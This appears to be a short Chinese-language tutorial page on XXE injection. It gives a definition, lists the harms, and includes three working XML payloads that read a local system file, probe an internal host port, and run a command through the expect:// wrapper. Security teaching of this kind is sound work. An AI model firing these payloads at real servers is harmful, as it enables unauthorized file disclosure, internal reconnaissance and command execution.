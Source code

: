 # 什么是XXE

## XXE 

![image-20221125165741902](https://img.gyxnb.top/img/image-20221125165741902.png)

XML外部实体注入 

XML External Entity Injection

## XXE定义

如果Web应用的脚本代码没有限制XML引入外部实体，

从而导致用户可以插入一个**外部实体**，

并且其中的内容会被服务器端执行，



插入的代码可能导致:

- 任意文件读取、
- 系统命令执行、
- 内网端口探测、
- 攻击内网网站等危害。

读取文件

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY xxe SYSTEM "file:///C:/Windows/system.ini">]> 
<login>&xxe;</login>
```

探测端口

```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
    <!ENTITY xxe SYSTEM "http://192.168.31.193:8092">]> 
<login>&xxe;</login>
```

执行命令

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY xxe SYSTEM "expect://ipconfig">]> 
<login>&xxe;</login>
```

# XXE利用方式
